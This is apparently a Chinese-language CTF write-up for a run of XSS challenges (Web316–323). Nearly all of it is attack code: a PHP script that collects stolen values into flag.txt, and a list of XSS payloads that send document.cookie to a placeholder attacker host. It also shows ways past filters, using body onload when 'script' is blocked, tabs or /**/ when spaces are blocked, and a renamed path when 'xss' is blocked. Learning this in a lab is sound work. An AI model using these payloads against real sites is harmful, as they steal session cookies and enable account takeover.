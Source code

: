	<?php
	$content = $_GET[1];
	if(isset($content)){
	file_put_contents("flag.txt",$content);
	}else{
	echo"what happened?;
	}
	?>

注意要给权限。
paylaod

	1、
	<script>document.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie</script>
	2、
	<script>window.open('http://x.x.x.x:5555/xss/xss.php?1='+document.cookie)</script>
	3、
	<script>location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie</script>
	4、
	<script>window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie</script>
	5、
	<input onfocus="window.open('http://x.x.x.x:5555/xss/xss.php?1='+document.cookie)" autofocus>
	6、
	<svg onload="window.open('http://x.x.x.x:5555/xss/xss.php?1='+document.cookie)">
	7、<iframe onload="window.open('http://x.x.x.x:5555/xss/xss.php?1='+document.cookie)"></iframe>
	8、<body onload="window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie"></body>

##Web317
过滤了script

	<body onload="window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie"></body>

##Web318
同317

##Web319
同317

##Web320
过滤空格

	1、用tab代替
	<body	onload="window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie"></body>
	2、注释绕过
	<body/**/onload="window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie"></body>

##Web321

	<body	onload="window.location.href='http://x.x.x.x:5555/xss/xss.php?1='+document.cookie"></body>

##Web322
理论上上面是可以打通的，但是打了好几遍没打通。原因是我url里面有xss，这里过滤了xss，所以把xss换掉即可。

	<body	onload="window.location.href='http://x.x.x.x:5555/xs/xs.php?1='+document.cookie"></body>

##Web323
同322
